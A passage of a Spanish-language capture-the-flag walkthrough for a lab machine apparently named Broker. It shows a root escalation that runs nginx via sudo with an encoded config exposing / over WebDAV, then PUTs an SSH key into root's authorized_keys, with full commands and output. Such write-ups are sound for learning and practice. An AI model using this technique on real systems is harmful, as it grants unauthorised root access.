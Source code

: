 > Q. ¿Qué directiva nginx se puede utilizar para definir métodos WebDAV permitidos?  
> A. dav_methods  

> Q. ¿Qué indicador se utiliza para establecer una configuración nginx personalizada especificando un archivo?  
> A. -c   


```bash
activemq@broker:/dev/shm$ echo "dXNlciByb290OwpldmVudHMgeyB3b3JrZXJfY29ubmVjdGlvbnMgMTAyNDsgfQpodHRwIHsgc2VydmVyIHsKICAgICAgICBsaXN0ZW4gNjY2OyByb290IC87IGF1dG9pbmRleCBvbjsgZGF2X21ldGhvZHMgUFVUOwp9fQo=" | base64 -d > nginx
activemq@broker:/dev/shm$ sudo nginx -c /dev/shm/nginx
activemq@broker:/dev/shm$ curl -s http://localhost:666
<html>
<head><title>Index of /</title></head>
<body>
<h1>Index of /</h1><hr><pre><a href="../">../</a>
<a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
<a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
<a href="dev/">dev/</a>                                               22-Dec-2023 04:17                   -
...
```
Todos esos puertos abiertos con el sistema de archivos (como el del puerto 81) eran explotaciones previas por parte de otras personas.
Creamos con kali un par de llaves en el directorio actial de trabajo:

> Q. ¿Qué método HTTP se utiliza para escribir archivos mediante el protocolo WebDAV?  
> A. PUT  

```bash
$: ssh-keygen -t rsa -b 1024 -f broker
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
...
$: cat broker.public
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCy4VJoDJuhu1wW6EReCT1XZ59qxtU597O8oYFNQ5zzLpLz/wo8qVgQjWj54KEM1jS7AoWZV2mBJ2N8O6IkTpll8IQdcK8avtX5ad4CJqFlz1jz7pIWpbP2k/XEVge6mCxaSYMA6hNLuQMOj7opYgz3rbxEGj+2MYlbFDMNnSywUQ== jessica@kali

activemq@broker:/dev/shm$ curl -X PUT localhost:666/root/.ssh/authorized_keys -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCy4VJoDJuhu1wW6EReCT1XZ59qxtU597O8oYFNQ5zzLpLz/wo8qVgQjWj54KEM1jS7AoWZV2mBJ2N8O6IkTpll8IQdcK8avtX5ad4CJqFlz1jz7pIWpbP2k/XEVge6mCxaSYMA6hNLuQMOj7opYgz3rbxEGj+2MYlbFDMNnSywUQ== jessica@kali'

$: ssh -i ./broker root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
Last login: Wed Jan  3 10:18:41 2024 from 127.0.0.1
root@broker:~# whoami
root
```
